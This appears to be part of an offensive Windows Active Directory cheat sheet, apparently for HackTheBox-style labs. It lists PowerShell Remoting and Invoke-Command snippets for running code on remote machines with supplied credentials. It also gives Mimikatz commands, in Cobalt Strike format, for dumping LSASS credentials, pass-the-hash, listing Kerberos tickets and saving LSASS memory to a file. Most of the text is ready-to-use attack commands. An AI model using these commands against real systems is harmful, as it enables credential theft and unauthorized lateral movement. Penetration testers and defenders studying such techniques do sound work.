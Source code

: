 #### **Powershell Remoting**

```
#Enable Powershell Remoting on current Machine (Needs Admin Access)
Enable-PSRemoting

#Entering or Starting a new PSSession (Needs Admin Access)
$sess = New-PSSession -ComputerName <Name>
Enter-PSSession -ComputerName <Name> OR -Sessions <SessionName>
```

#### **Remote Code Execution with PS Credentials**

```
$SecPassword = ConvertTo-SecureString '<Wtver>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\<WtverUser>', $SecPassword)
Invoke-Command -ComputerName <WtverMachine> -Credential $Cred -ScriptBlock {whoami}
```

#### **Import a powershell module and execute its functions remotely**

```
#Execute the command and start a session
Invoke-Command -Credential $cred -ComputerName <NameOfComputer> -FilePath c:\FilePath\file.ps1 -Session $sess 

#Interact with the session
Enter-PSSession -Session $sess
```

#### **Executing Remote Stateful commands**

```
#Create a new session
$sess = New-PSSession -ComputerName <NameOfComputer>

#Execute command on the session
Invoke-Command -Session $sess -ScriptBlock {$ps = Get-Process}

#Check the result of the command to confirm we have an interactive session
Invoke-Command -Session $sess -ScriptBlock {$ps}
```

#### **Mimikatz**

```
#The commands are in cobalt strike format!

#Dump LSASS:
mimikatz privilege::debug
mimikatz token::elevate
mimikatz sekurlsa::logonpasswords

#(Over) Pass The Hash
mimikatz privilege::debug
mimikatz sekurlsa::pth /user:<UserName> /ntlm:<> /domain:<DomainFQDN>

#List all available kerberos tickets in memory
mimikatz sekurlsa::tickets

#Dump local Terminal Services credentials
mimikatz sekurlsa::tspkg

#Dump and save LSASS in a file
mimikatz sekurlsa::minidump c:\temp\lsass.dmp

```